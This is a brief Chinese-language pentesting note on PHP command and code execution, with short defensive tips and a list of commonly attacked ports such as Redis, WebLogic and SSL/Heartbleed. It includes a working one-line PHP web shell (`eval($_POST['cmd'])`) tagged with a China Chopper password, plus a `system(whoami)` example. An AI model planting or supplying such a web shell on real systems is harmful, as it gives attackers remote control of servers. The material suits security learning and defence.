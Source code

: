 ``：OS命令执行

##### 用法：

- 显示当前文件
- 查看系统hosts文件
- 写文件

##### 防御：

- 减少命令执行函数的使用
- 过滤参数
- 包裹，addslashes转义

### PHP中代码执行的函数 会出现的问题

eval()函数

```php
#传入的参数必须为PHP代码，既需要以分号结尾。
#命令執行：cmd=system(whoami);
#菜刀连接密码：cmd
<?php @eval($_POST['cmd']);?>
```

assert()

preg_replace()

Create_function()

Array_map()

------

### 渗透常见端口

```
web类
80 web
80-89web
8000-9090web
SQL类
1433	MSSQL
1521	Orcale
3306	MySQL
5432	PostgreSQL
特殊服务类
443	SSL心脏滴血
873	未授权
5984	CouchDB
6379	redis未授权
7001，7002	WebLogic默认弱口令
常用端口
21	ftp
22	SSH
23	Telnet
110 POP3
143 IAMP
389 openldap
2601，2604	zebra路由
3389	远程桌面
6000 xserver
6379 Redis
```
